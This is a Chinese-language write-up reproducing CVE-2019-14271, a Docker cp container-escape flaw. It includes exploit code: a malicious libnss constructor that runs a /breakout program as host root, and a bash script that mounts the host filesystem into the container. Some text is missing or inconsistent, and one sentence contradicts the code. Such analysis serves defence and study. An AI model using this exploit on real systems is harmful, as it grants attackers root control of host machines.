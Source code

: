 （CVE-2019-14271）Docker copy漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Docker 19.03.1

三、复现过程
------------

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix
cp命令非常相似。要从容器中复制/var/logs，语法是docker cp
container\_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![](./.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId25.png)

图 1. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker
daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change
Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![](./.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId26.png)

图 2. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host
root。因此，攻击者控制的容器就可以尝试和诱使docker
cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go
v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss\_\*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss\_\*.so库的镜像

容器中含有被攻击者替换的libnss\_\*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss\_files.so文件，下载了库函数的源码，并在代码中加入了一个函数------run\_at\_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run\_at\_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run\_at\_link函数就会执行。下面是run\_at\_link的代码：

    #include ...

    #define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
    #define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

    bool is_priviliged();

    __attribute__ ((constructor)) void run_at_link(void)
    {
         char * argv_break[2];
         if (!is_priviliged())
               return;

         rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
         fprintf(log_fp, "switched back to the original libnss_file.so");

         if (!fork())
         {

               // Child runs breakout
               argv_break[0] = strdup("/breakout");
               argv_break[1] = NULL;
               execve("/breakout", argv_break, NULL);
         }
         else
               wait(NULL); // Wait for child

         return;
    }
    bool is_priviliged()
    {
         FILE * proc_file = fopen("/proc/self/exe", "r");
         if (proc_file != NULL)
         {
               fclose(proc_file);
               return false; // can open so /proc exists, not privileged
         }
         return true; // we're running in the context of docker-tar
    }

查/proc目录完成的。如果run\_at\_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run\_at\_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run\_at\_link执行。

为简化该漏洞利用，run\_at\_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run\_at\_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![](./.resource/(CVE-2019-14271)Dockercopy漏洞/media/rId29.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss\_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host\_fs的容器中，并将消息写入host的/evil目录。/breakout脚本代码如下：

    umount /host_fs && rm -rf /host_fs
    mkdir /host_fs


    mount -t proc none /proc     # mount the host's procfs over /proc
    cd /proc/1/root              # chdir to host's root
    mount --bind . /host_fs      # mount host root at /host_fs
    echo "Hello from within the container!" > /host_fs/evil

四、参考链接
------------

> https://xz.aliyun.com/t/6806
